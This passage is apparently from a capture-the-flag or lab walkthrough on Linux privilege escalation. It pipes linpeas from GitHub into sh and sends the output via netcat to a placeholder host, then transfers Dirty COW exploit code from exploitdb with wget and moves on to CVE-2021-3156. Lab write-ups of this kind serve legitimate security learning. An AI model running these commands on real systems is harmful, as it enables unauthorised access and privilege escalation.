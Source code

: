 ```
nc -lvnp 9002 | tee linpeas.out
```

Next, let's type the following in the shell we just upgraded:

```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh | nc <HOST COMPUTER IP> 9002
```

This will give us `linpeas.out` file full of analysis of the remote machine we just gained a foothold to. I usually like to go through CVEs first:

```
cat linpeas.out | grep CVE
```

There is a `CVE-2016-5195` exploit under the name of `dirtycow`. I've heard of it before, I want to try it first.

```
searchsploit --cve 2016-5195
```

```
cp /usr/share/exploitdb/exploits/linux/local/40839.c dirty.c
```

Now on the remote machine we need to somehow grab this file. Let's start a server on the host machine:

```
python -m http.server
```

Navigate to `/tmp` on the remote machine and type:

```
wget http://<HOST MACHINE IP>:8000/dirty.c
```

The instruction dictates we have to compile this file on the remote machine:

```
gcc -pthread dirty.c -o dirty -lcrypt
```

It appears that gcc isn't available on the remote machine. Let's try compiling it locally and then uploading it to the remote machine.

```
wget http://<HOST MACHINE IP>:8000/dirty
```

It appears some libraries aren't found. This is why we needed it compiled on the remote machine in the first place. Moving on. 

```
searchsploit --cve 2021-3156
```

There is a python exploit we can use. Let's try it:
